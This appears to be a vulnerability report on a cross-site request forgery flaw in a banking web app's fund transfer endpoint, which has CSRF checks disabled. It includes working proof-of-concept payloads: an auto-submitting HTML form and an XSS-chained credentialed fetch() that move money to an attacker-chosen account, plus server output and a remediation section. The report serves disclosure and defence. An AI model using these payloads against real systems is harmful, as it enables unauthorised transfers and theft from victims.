

# Description

Cross-Site Request Forgery (CWE-352) on the bank transfer endpoint `POST /banking/dashboard/` (`form_type=transfer_form`). The `account()` view in `Bank/views.py` is `@csrf_exempt`, so a Neuros fund transfer executes on the session cookie alone — no `csrfmiddlewaretoken` body field and no `X-CSRFToken` header are required. Recipient and amount are fully attacker-controlled, with no confirmation step.

While the session cookie is `SameSite=Lax` (blocking cross-site auto-submit in modern browsers), a same-origin stored XSS can issue a credentialed `fetch()` that bypasses `SameSite` and triggers the transfer — the missing server-side CSRF check is the root cause regardless.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Capture a normal transfer; note the body has no CSRF token. | Confirms no token in use. |
| 2 | Replay with the token removed entirely. | `302` — transfer executes, no rejection. |
| 3 | Decode the `messages` cookie / check balance. | Funds moved. |

# PoC

**Standalone HTML PoC (auto-submits on load):**

```html
<form method="POST" action="https://<TARGET>/banking/dashboard/">
  <input type="hidden" name="form_type" value="transfer_form">
  <input type="hidden" name="recipient" value="5659365982437126">
  <input type="hidden" name="amount" value="20">
</form>
<script>document.forms[0].submit()</script>
```

**XSS-chain PoC (bypasses `SameSite=Lax`):**

```javascript
fetch('/banking/dashboard/', {method:'POST', credentials:'include',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'form_type=transfer_form&recipient=5659365982437126&amount=20&note='});
```

Server response with no CSRF token present:

```
HTTP/2 302 Found
Set-Cookie: messages=...   → "Successfully transferred 20.00 NE to account 5659365982437126."
```



A cross-origin test with `Origin: https://attacker.example` was also accepted (no `403`).

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Silent, attacker-defined fund transfers draining a victim's balance. |
| Availability | Repeated forced transfers empty accounts. |

Overall severity: **High** — direct financial impact, no confirmation, weaponisable via the same-origin XSS chain.

# Remediation

1. **Apply `@csrf_protect`** to the transfer view (remove `@csrf_exempt`) so a valid `csrfmiddlewaretoken` is mandatory.
2. **Do not rely on `SameSite=Lax`** as the sole control — it does not stop same-origin XSS chains.
3. **Add a confirmation / re-authentication step** (PIN) for transfers.

# Author
TéléHack
